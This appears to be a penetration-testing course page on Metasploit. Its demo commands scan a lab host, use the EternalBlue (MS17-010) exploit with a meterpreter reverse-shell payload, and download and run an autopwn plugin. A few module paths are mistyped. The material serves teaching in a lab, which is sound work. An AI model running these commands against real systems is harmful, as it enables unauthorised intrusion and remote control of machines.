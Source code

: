 #### Definition

* Vulnerability scanning & detection is the process of scanning a target for vulnerabilities and verifying whether they can be exploited.
* So far, we have been able to identify and exploit misconfigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web applications.
* This information will come in handy during the exploitation phase of this course.
* We will also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate Nessus functionality in to the MSF.

#### Demo

**First method**

```bash
kali@kali> nmap -sn 10.10.10.1/24
kali@kali> service postgresql start && msfconsole

msf6> db_status
msf6> workspace -a vuln-scanning
msf6> setg rhosts 10.10.10.4
msf6> setg rhost 10.10.10.4

msf6> db_nmap 10.10.10.4 -sS -sV
msf6> search type:exploit name:iis
msf6> search type:exploit name:mysql
msf6> search Sun Glassfish
msf6> use exploit/mult/http/glassfish_deployer

msf6> info
msf6> set payload windows/meterpreter/reverse_tcp
msf6> options
msf6> back  # unusable service

msf6> searchsploit 'Microsoft Windows SMB' | grep Metasploit
msf6> search eternalblue
msf6> use auxiliary/scanner/smb/smb_ms17_010
msf6> run  # the service is vulnerable

msf6> use windows/smb/ms17_10_eternalblue
msf6> run

meterpreter> sysinfo  # reverse shell
```

**Second method**

```bash
kali@kali> wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
kali@kali> cp db_autopwn.rb /usr/share/metasploit-framework/plugins
kali@kali> msfconsole

msf6> load db_autopwn
msf6> db_autopwn -p -t -PI 445
msf6> db_autopwn -p -t -PI 21
```
